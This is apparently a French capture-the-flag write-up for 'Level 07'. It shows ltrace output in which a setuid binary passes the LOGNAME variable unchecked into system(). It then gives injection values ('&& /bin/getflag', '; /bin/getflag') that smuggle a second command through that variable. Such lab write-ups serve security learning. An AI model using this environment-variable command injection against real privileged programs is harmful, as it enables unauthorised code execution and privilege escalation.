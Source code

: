 # Level 07

- `ltrace ./level07`
<pre>
__libc_start_main(0x8048514, 1, 0xff981484, 0x80485b0
getegid()                                                                              = 1000
geteuid()                                                                              = 1000
setresgid(1000, 1000, 1000, 0xf7d95d15)                                                = 0
setresuid(1000, 1000, 1000, 0xf7d95d15)                                                = 0
<strong>getenv("LOGNAME")                                                                      = "alarm"</strong>
asprintf(0xff9813d4, 0x8048688, 0xff982d18, 0xf7d95d15)                                = 16
<strong>system("/bin/echo alarm ")</strong>
--- SIGCHLD (Child exited) ---
+++ exited (status 0) +++
</pre>
- On peut faire une injection dans la commande avec la variable **LOGNAME**
- On y injection donc getflag pour recuperer le flag
  - `LOGNAME="&& /bin/getflag"` ou `LOGNAME="; /bin/getflag"`
